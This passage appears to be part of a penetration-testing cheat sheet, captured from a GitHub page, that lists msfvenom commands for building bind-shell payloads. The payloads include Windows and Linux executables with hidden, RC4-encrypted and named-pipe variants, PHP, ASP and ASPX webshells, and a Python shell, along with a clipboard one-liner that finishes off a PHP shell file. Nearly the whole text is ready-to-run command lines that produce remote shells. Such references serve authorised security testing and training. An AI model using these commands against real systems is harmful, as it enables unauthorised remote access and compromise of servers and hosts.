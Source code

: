 `$ msfvenom -p windows/shell/bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-shell-x86.exe`

`$ msfvenom -p windows/shell/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o shell-x86.exe`

For the SMB pipe the default for LPORT will always be port 445

`$ msfvenom -p windows/shell/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o shell-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/shell/bind_tcp lport=<PORT> -f exe -o shell-x86-64.exe`

`$ msfvenom -p windows/x64/shell/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o shell-x86-64.exe`

##### 2.5.2.2 - Staged Linux Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/shell/bind_tcp lport=<PORT> -f elf -o shell-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/shell/bind_tcp lport=<PORT> -f elf -o shell-x86-64`

##### 2.5.2.3 - Staged Bind Webshells

1. **PHP**

`$ msfvenom -p php/bind_php lhost=<IP> lport=<PORT> -f raw -o shell.php`

`$ msfvenom -p php/bind_perl lport=<PORT> -f raw -o shell.php`

`$ cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> shell.php`

2. **ASP**

`$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f asp -o shell-x86.asp`

`$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f asp -o shell-x64.asp`

3. **ASPX**

`$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f aspx -o shell-x86.aspx`

`$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f aspx -o shell-x64.aspx`

##### 2.5.2.4 - Stageless Python Bind Shells

`$ msfvenom -p python/shell_bind_tcp lport=<PORT> -o shell.py`

##### 2.5.2.5 - Stageless Windows Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/shell_bind_tcp lport=<PORT> -f exe -o shell-x86.exe`

`$ msfvenom -p windows/shell_bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-shell-x86.exe`
